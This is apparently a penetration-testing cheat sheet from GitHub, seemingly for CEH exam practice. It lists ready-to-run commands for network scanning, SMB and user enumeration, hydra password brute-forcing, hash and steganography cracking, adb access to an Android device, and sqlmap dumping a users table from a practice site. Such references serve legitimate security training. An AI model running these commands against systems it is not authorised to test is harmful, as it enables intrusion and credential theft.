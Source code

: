 # All the Commands You Need to Know

## Network Scanning & Enumeration

### How Many Machines Are Active in a Network
```bash
netdiscover -i 192.168.1.0/24
```

### Connect to RDP via CMD
```bash
mstsc
```

### Find DNS Records
[nslookup.io](https://www.nslookup.io/)

### Scan the Whole Website
```bash
skipfish -o /root/test -S /usr/share/skipfish/dictionaries/complete.wl http://10.10.10.10:8080
```
**Options:**
- `-o` output
- `-S` wordlist

### Brute-force Directories or Files
```bash
gobuster dir -u 10.10.10.10 -w /usr/share/dirb/wordlists/common.txt -x .txt
```
**OR**
```bash
uniscan -u http://10.10.10.12:8080/CEH -q   # for directories
uniscan -u http://10.10.10.12:8080/CEH -we  # enable file check like robots.txt and sitemap.xml
```

### Download a File from a Server
```bash
wget http://10.10.10.10/secret.txt
```

## Authentication & Access

### FTP Login
```bash
ftp <ip>
get <file_name>
```

### SSH Login
```bash
ssh username@10.10.10.10
```

## Nmap Scanning
```bash
nmap -A 10.10.10.10   # Aggressive scan (Traceroute, T4, OS)
nmap -sC 10.10.10.10  # Service scan
nmap -sV 10.10.10.10  # Version scan
nmap -sP 10.10.10.10/24  # Ping scan to see active hosts
nmap -sL 10.10.10.10  # Hostnames
nmap -oN <filename>  # Save output to file
nmap -F 10.10.10.10  # Fast scan
nmap -O 10.10.10.10  # OS detection
```

## Hash Cracking
```bash
hashid -m <hash>  # Identify hash type
hashcat -m <mode> -a 0 <hash> /usr/share/wordlist/rockyou.txt
```
[Crackstation](https://crackstation.net)  
[Hashes.com](https://hashes.com)  
[CyberChef](https://gchq.github.io/CyberChef/)

## Enumeration Tools
- Global network inventory
- Netbios enumerator
- Hyena
- Superscan
- Advanced IP Scanner

## Nmap SMB Scripts
```bash
nmap --script smb-os-discovery.nse -p445 <ip>
nmap --script smb-enum-users.nse -p445 <ip>
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.19.21
smbclient //10.10.19.21/anonymous
smbget -R smb://10.10.19.21/anonymous
```

## Enum4Linux
```bash
enum4linux -u martin -p apple -U 10.10.10.12  # Get user list
enum4linux -u martin -p apple -o 10.10.10.12  # Get OS info
enum4linux -u martin -p apple -P 10.10.10.12  # Get password policy info
enum4linux -u martin -p apple -G 10.10.10.12  # Get groups and members info
enum4linux -u martin -p apple -S 10.10.10.12  # Get share list info
enum4linux -u martin -p apple -a 10.10.10.12  # Get all data
```

## WordPress Enumeration
```bash
wpscan --url http://[IP]:8080/CEH --enumerate u
```

## Vulnerability Analysis
```bash
nikto -h http://testphp.vulnweb.com/login.php -Tuning 1
```

## Brute-force Attacks
```bash
hydra -L username -P /usr/share/wordlists/rockyou.txt ftp://xiotz.com
```

## Cryptography Tools
- HashCalc
- MD5 Calculator
- CrypTool (decode .hex files)
- BCTextEncoder (decrypt text using a secret key)
- VeraCrypt (volume encryption)

## Steganography
```bash
steghide embed -ef <filename> -cf <image> -p <passphrase>
steghide extract -sf <image>  # Extract hidden data
stegcracker <image> /usr/share/wordlists/rockyou.txt  # Crack passphrase
sha256sum <filename>  # Get file hash
```
[Online Steganography Tool](https://futureboy.us/stegano/decinput.html)

## Android Hacking
```bash
./adb tcpip 5555
./adb connect 192.168.43.117:5555
./adb devices
./adb -d shell
ls
cd sdcard/dcim/camera
```
### Transfer Files
```bash
./adb push C:\platform-tools\ota.zip /sdcard/Download  # PC to Android
./adb pull /sdcard/Download/magisk_patched.img C:\platform-tools  # Android to PC
```

## SQLMap - SQL Injection Testing
```bash
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs  # Find databases
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables  # Find tables
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns  # Find columns
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump  # Dump entire table
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname --dump  # Dump specific column
```

